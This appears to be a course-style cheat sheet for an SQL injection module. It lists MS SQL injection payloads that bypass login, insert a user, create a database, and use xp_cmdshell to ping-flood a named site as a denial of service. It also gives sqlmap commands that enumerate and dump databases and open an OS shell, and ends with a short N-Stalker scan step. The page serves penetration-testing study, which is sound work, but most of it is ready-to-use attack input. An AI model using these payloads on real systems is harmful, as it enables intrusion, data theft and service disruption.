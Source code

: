 # Module 15 - SQL Injection #

## SQL Injection on an MS SQL Database ##

``` blah' or 1=1 -- - ```
``` blah'; insert into login values('john','apple123'); -- - ``` - Inserting a new user into the table 'login'
``` blah'; create database mydatabase; -- - ``` - Creating a new database
``` blah'; exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- - ``` - To perform a DoS to a site

### SQLMap ###
``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> --dbs ``` - It tampers with the parameters in the URL to attempt to extract database information

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> ``` - It displays info about the specific database

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> -T <Table> --columns ``` - It displays the columns of the specified table

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> -D <Database Name> -T <Table> --dump ``` - It dumps all the info about the specified table

``` sqlmap -u <URL with Parameters - Ex. /?id=1> --cookie=<document.cookie> --os-shell ``` - To execute an os shell


- - - -

## Scanning Web Applications ##

### N-Stalker ###
1. Enter the URL and the 'OWASP Policy' Scan Policy. Leave everything else to default.
2. 'Start Scan'

It shows the website tree, the vulnerabilities found, objects, stats...
